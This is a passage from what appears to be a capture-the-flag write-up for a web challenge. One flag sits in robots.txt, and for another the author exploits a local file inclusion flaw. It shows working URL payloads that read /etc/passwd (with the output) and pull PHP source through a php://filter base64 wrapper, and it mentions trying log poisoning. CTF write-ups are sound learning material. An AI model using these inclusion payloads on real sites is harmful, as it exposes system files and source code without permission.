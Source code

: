I realized at that moment that I had not looked for a `robots.txt` file. I opened it and the first flag was there. 

```
User-agent: * 
Disallow: /admin/

FLAG{1_dur_dur_detre_un_robot}
```

## Flag #2

For the second flag, I used the LFI vulnerability. When clicking on post, we were taken to a URL that had a parameter `postid` with a PHP file as the value: http://www.jamaissansmonriz.com/post.php?postid=posts/1.php . 

I immediately tried to include `/etc/passwd`. 

http://www.jamaissansmonriz.com/post.php?postid=/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/sh
```

It worked, but it did not contains anything of interest. I tried loading the Apache logs to see if I could use it to do some log poisoning. It did not work. 

Next I used the LFI vulnerability to extract the PHP files. This is not a simple to do as using `postid=index.php`. If you include a PHP file like this, it will be interpreted and the server will return the result of that execution instead of the code. Luckily, the PHP filters allow us to get the PHP code as base64. 

I loaded the PHP file with http://www.jamaissansmonriz.com/post.php?postid=php://filter/convert.base64-encode/resource=index.php . Then I saved the base64 string into a file and decoded it. 

```bash
base64 -d index.b > index.php
```

